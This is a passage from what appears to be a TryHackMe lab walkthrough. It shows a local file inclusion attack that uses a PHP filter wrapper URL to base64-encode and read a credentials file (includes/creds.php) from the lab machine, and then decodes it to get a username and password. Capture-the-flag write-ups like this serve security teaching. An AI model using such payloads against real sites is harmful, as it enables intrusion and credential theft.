 ![](./res/answer5.png)

From the above, we can also see that there is a `./includes/creds.php` PHP file that is added.  
Using the same PHP filter wrapper method, navigate to the following:  
`https://<VULNERABLE_MACHINE_IP>.p.thmlabs.com/index.php?err=php://filter/convert.base64-encode/resource=/var/www/html/includes/creds.php`

Again, use the [base64 decoding website](https://www.base64decode.org/) to decode the string and get the username and password for Qn 4:  
